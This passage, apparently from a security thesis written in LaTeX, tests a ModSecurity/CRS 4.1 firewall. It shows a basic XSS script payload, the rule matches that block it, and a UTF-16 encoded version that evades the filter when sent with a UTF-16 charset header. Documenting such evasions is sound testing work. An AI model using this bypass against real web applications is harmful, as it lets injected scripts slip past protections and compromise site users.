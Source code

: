 \subsubsection{Charset Alternation}
\label{sec:charaltsingleiter}
The payload:

\begin{lstlisting}[style=basicStyle, language=Python]
<script>alert("xss")</script>
\end{lstlisting}

was sent in a request towards the web application. The ModSecurity firewall using \acrshort{crs} 4.1 blocked the payload according to multiple rules:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=<script>alert("xss")</script> blocked, label={lst:charsetaltexampleblocked}]
<payload><script>alert("xss")</script></payload>

<message>"XSS Attack Detected via libinjection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "116"] [id "941100"]<fileDetails>
<MatchedData>"<script>alert(\x22xss\x22)</script>"</MatchedData>

<message>"XSS Filter - Category 1: Script Tag Vector"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "142"] [id "941110"]<fileDetails>
<MatchedData>"<script>"</MatchedData>

<message>"NoScript XSS InjectionChecker: HTML Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "234"] [id "941160"]<fileDetails>
<MatchedData>"<script"</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

After encoding the payload to \verb|UTF-16|, as proposed by the evasion technique stated under Section~\ref{sec:charsetalt}, a request with the obscured payload:

\begin{lstlisting}[style=basicStyle]
\xff\xfe<\x00s\x00c\x00r\x00i\x00p\x00t\x00>\x00a\x00l\x00e\x00r\x00t\x00(\x00'\x00x\x00s\x00s\x00'\x00)\x00<\x00/\x00s\x00c\x00r\x00i\x00p\x00t\x00>\x00
\end{lstlisting}

successfully evaded the filtering of the firewall. In order for this payload to have any effect, the web server receiving the \acrshort{http} request containing this payload needs to be informed that this payload is encoded in \verb|UTF-16|. For that purpose, the \acrshort{http} header: \\
\verb|Content-Type: text/html; charset=utf-16| \\
is added to the request.

